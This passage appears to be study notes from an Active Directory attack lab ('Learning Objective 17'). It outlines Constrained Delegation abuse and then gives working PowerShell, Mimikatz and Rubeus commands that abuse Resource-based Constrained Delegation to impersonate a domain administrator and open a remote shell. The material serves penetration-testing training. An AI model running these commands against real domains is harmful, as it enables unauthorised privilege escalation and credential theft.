 - For such a user, request a TGT from the DC and obtain a TGS for the service to which delegation is configured.
- Pass the ticket and access the service as DA.

Enumerate computer accounts in the domain for which Constrained Delegation is enabled:

- For such a user, request a TGT from the DC.
- Use the TGS for executing the DCSync attack
	


# Resource-based Constrained Delegation

> This moves delegation authority to the resource/service administrator.

- Instead of SPNs on msDs-AllowedToDelegatTo on the front-end service like web service, access in this case is controlled by security descriptor of **msDS-AllowedToActOnBehalfOfOtherIdentity** (visible as PrincipalsAllowedToDelegateToAccount) on the resource/service like SQL Server service.
- That is the resource/service administrator can configure this delegation whereas for other types, **SeEnableDelegation privileges are required** which are, by default, available only to Domain Admins.


**To abuse RBCD in the most effective form, we just need two privileges**:

1. Write permissions over the target service or object to configure **msDS-AllowedToActOnBehalfOfOtherIdentity**.
2. Control over an object which has SPN configured (like admin access to a domain joined machine or ability to join a machine to domain **-ms-DS-MachineAccountQuota is 10** for all domain users)

We already have admin privileges on student VMs that are domain joined machines.

Enumeration would show that the user *ciadmin* has Write permissions over the dcorp-mgmt machine!
```powershell
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}
```

Using the ActiveDirectory module, configure RBCD on dcorp-mgmt for student machines:
```powershell
$comps = 'dcorp-student1$','dcorp-student2$'
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $comps
```

Now, let's get the privileges of dcorp-studentx$ by extracting its AES keys:
```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

Use the AES key of dcorp-studentx$ with Rubeus and access dcorp-mgmt as ANY user we want:
```powershell
Rubeus.exe s4u /user:dcorp-student1$ /aes256:d1027fbaf7faad598aaeff08989387592c0d8e0201ba453d83b9e6b7fc7897c2 /msdsspn:http/dcorp-mgmt /impersonateuser:administrator /ptt

winrs -r:dcorp-mgmt cmd.exe
```


Learning Objective 17
